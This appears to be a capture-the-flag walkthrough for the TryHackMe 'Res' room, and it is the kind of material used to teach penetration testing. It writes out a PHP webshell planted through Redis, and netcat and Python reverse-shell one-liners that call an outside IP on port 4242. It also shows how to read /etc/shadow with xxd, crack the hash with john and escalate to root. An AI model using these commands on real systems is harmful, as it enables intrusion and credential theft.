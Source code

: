 # [Res](https://tryhackme.com/room/res)


### Task 5 Compromise the machine and locate user.txt
0. [HackTricks Webshell](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#webshell)
1. Apache writeable path `/var/www/html`
2. Connecting via `redis-cli` or `netcat`
```
redis-cli -h $ip
nc -vn $ip $port
```
3. Then one line php webshell `"<?php system($_GET['cmd']); ?>"` or maybe try this `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4242 >/tmp/f")?>`

### Task 6 What is the local user account password?
1. First get a reverse shell from webshell. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
2. Run `Linpeas.sh` found the intersting file `xxd`. https://gtfobins.github.io/gtfobins/xxd/
3. [Expand Knowledge](https://github.com/A1vinSmith/OSCP-PWK/wiki/Linux#file-read)
```
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```
4. Crack the password with john. `su user` then `sudo su` get the root
